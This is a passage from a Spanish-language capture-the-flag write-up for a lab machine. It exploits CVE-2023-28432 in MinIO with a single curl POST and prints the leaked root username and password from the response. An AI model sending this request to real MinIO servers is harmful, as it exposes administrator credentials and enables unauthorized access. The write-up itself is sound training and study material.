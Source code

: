 Al final de todas las métricas encontramos una URL, según el atributo es un endpoint de `minio`.
![Write-up Image](images/Screenshot_14.png)

Agregamos el subdominio `prd23-s3-backend.skyfall.htb` al `/etc/hosts`

## Information Disclosure -> CVE-2023-28432
Tras buscar vulnerabilidades en Minio, encontré [el siguiente post](https://www.sentinelone.com/blog/cve-2023-28432/) donde habla de una fuga de información que ocurre en un endpoint en una versión desactualizada de este software.

En esta vulnerabilidad al mandar una petición POST al endpoint `/minio/bootstrap/v1/verify` se filtrarían los campos `MINIO_ROOT_USER` y `MINIO_ROOT_PASSWORD`

Podemos hacer esta petición con cURL mismamente.
```console
$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify
```
```json
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
```

Vemos que el usuario es: `5GrE1B2YGGyZzNHZaIww`
La contraseña es: `GkpjkmiVmpFuL2d3oRx0`

